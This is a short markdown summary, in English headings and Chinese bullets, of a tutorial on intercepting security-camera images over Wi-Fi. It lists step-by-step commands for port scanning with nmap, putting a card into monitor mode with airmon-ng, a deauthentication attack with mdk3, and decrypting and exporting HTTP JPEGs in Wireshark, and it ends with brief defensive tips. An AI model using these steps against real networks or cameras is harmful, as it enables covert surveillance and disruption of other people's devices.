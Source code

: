 ## Intercept Images from a Security Camera Using Wireshark

### IoT Devices & Administration Pages

### Ports 80 & 81 Are Insecure

- 在路由器，安全摄像头和其他支持 Wi-Fi 的物联网设备等设备上看到端口 80, 81, 8080 或 8081 开放时，这很可能意味着在该端口上托管了一个不安全的HTTP网站
- 虽然端口 443 用于安全 HTTPS 流量，它是加密的并且不会出现相同类型的拦截风险，但任何通过本地网络暴露不安全 HTTP 端口的连接设备都是有被入侵的风险。例如使用 [RouterSploit](https://null-byte.wonderhowto.com/how-to/seize-control-router-with-routersploit-0177774/) 这样的程序尝试入侵

### Intercepting Traffic with Wireshark

- 使用 Wireshark 来嗅探目标计算机和路由器之间的 Wi-Fi 流量，目标是在查看安全摄像头源时捕获流向目标计算机的未加密 HTTP 流量
- 将 Wi-Fi 密钥添加到 Wireshark，无需连接到网络就可以解密我们嗅探的数据，降低被发现的几率

### What You'll Need & Practical Limitations

1. Access the Web Camera on the Insecure Interface

   `sudo nmap -p 80,81,8080,8081 192.168.0.0/24`

2. Identify the Channel & Prepare Wireless Card

   `airmon-ng start wlan0`

   `airodump-ng wlan0mon`

   `airmon-ng start wlan0mon 11`

3. Start Wireshark

4. Add the Network Password to Decrypt Traffic

   “Edit”->“Preferences”->“Protocols”->“IEEE 802.11”->“Enable decryption”->”Edit”->“``wpa-pwd`; key: `password:networkname`”

5. Build a Filter to Capture Traffic Between Devices

   “Receiver address”->“Apply as Filter”->“Selected”

6. Deauth the Target to Grab a Handshake

   `mdk3 wlan0mon d -c 11`

   `airodump-ng wlan0mon -c 11`

7. Filter the Traffic to Find HTTP Traffic

   `http`

8. Decode, Export & View the Intercepted JPEGs

   “File”->“Export Objects”->“HTTP”->“Save”

### Defending Against the Attack

- 确保摄像头使用 HTTPS 传输，设置高强度密码
- 避免直接暴露在互联网上
- 禁用路由器上的 WPS 设置等其他安全功能的选项



[原文](https://null-byte.wonderhowto.com/how-to/intercept-images-from-security-camera-using-wireshark-0191735/#jump-step8)

